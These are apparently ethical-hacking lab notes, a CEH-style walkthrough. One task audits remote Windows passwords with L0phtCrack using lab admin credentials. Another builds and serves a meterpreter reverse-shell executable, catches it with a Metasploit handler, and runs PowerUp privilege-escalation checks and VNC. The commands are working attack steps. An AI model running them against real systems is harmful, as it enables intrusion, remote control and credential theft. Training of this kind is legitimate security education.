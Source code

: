 ## Lab 1: Gain Access to the System

### Task 2: Audit System Passwords using L0phtCrack

+ Login to Windows 11 as Admin
+ open L0phtCrack 7 
+ `Password Auditing Wizard`
+ Target System Type: `Windows`
+ Windows Import: `A remote machine`
+ Windows Import From Remote Machine (SMB) wizard type the following
  + Host: 10.10.1.22 (IP address of the remote machine [Windows Server 2022])
  + Select the `Use Specific User Credentials` radio button. In the Credentials section, type the login credentials of the Windows Server 2022 machine (Username: Administrator; Password: Pa$$w0rd)
  + If the machine is under a domain, enter the domain name in the Domain section. Here, Windows Server 2022 belongs to the CEH.com domain
+ Pick `Thorough Password Audit`
+ Reporting Options wizard
  + Generate Report at End of Auditing
  + CSV
  + Store in Desktop
+ Click `Run this job immediately`

### Task 4: Exploit Client-Side Vulnerabilities and Establish a VNC Session

+ Open Terminal
+ sudo su
+ msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=10.10.1.13 LPORT=444 -o /home/attacker/Desktop/Test.exe
+ mkdir /var/www/html/share
+ chmod -R 755 /var/www/html/share
+ chown -R www-data:www-data /var/www/html/share
+ cp /home/attacker/Desktop/Test.exe /var/www/html/share
+ service apache2 start
+ msfconsole
+ use exploit/multi/handler
+ set payload windows/meterpreter/reverse_tcp
+ set LHOST 10.10.1.13
+ set LPORT 444
+ exploit
+ Open http://10.10.1.13/share on Windows 11 browser
+ Download the Test.exe
+ Execute the Test.exe file
+ Go back to Parrot and observe meterpreter shell
+ sysinfo
+ upload /root/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1
+ shell
+ powershell -ExecutionPolicy Bypass -Command ". .\PowerUp.ps1;Invoke-AllChecks"
+ exit
+ run vnc
